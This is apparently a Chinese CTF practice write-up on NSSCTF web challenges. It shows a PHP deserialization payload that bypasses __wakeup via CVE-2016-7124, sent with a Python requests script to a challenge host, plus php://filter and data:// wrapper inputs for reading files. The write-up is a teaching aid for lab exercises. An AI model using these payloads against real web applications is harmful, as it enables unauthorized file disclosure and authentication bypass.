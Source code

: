 ```yaml
---
title: Web做题(1-20)
date: 2023-12-03 21:09:13
tags: Web
mathjax: true
---
```


# Web做题(1-20)

## 1.[SWPUCTF 2021 新生赛]no_wakeup

反序列化时触发`__wakeup`函数，考虑绕开。

```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus); //O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

CVE-2016-7124：当参数列表中成员个数与实际不符时绕过`__wakeup`函数，构造：

```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

payload：

```python
import requests
response=requests.get('http://node4.anna.nssctf.cn:28398/class.php?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}')
print(response.text[-44:])
```

## 2.[LitCTF 2023]我Flag呢？

略。

## 3.[SWPUCTF 2021 新生赛]PseudoProtocols

hint.php读取方法：

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

以文件形式读取：

```
?a=data://text/plain,I want flag
```
